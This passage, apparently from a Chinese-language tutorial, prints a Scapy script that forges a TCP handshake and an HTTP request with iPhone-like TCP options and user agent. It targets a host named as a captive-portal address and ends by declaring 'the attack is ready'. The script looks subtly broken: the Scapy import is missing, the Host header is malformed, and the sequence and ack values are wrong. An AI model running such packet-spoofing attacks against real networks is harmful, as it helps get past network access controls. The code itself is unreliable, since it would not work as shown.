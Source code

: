 ```
import random
```

```
CPIPADDRESS = "192.168.108.239"
```

```
SOURCEP = random.randint(1024,65535)
```

```
ip = IP(dst=CPIPADDRESS, flags="DF", ttl=64)
```

```
tcpopt = [("MSS",1460), ("NOP",None), ("WScale",2), ("NOP",None), ("NOP",None), ("Timestamp",(123,0)), ("SAckOK",""), ("EOL",None)]
```

```
SYN = TCP(sport=SOURCEP, dport=80, flags="S", seq=1000, window=0xffff, options=tcpopt)
```

```
SYNACK = sr1(ip/SYN)
```

```
ACK = TCP(sport=SOURCEP, dport=80, flags="A", seq=SYNACK.ack+1, ack=SYNACK.seq+1, window=0xffff)
```

```
send(ip/ACK)
```

```
request = "GET / HTTP/1.1\r\nHost: " + CPIPADDRESS + "\rMozilla/5.0 (iPhone; CPU iPhone OS 12_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148\r\n\r\n"
```

```
PUSH = TCP(sport=SOURCEP, dport=80, flags="PA", seq=1001, ack=0, window=0xffff)
```

```
send(ip/PUSH/request)
```

```
RST = TCP(sport=SOURCEP, dport=80, flags="R", seq=1001, ack=0, window=0xffff)
```

```
send(ip/RST)
```

一旦我在 nano 中完成输入，我将其保存为 **.py** 文件并使用 **chmod** 命令设置为可执行。就这样——攻击准备就绪：
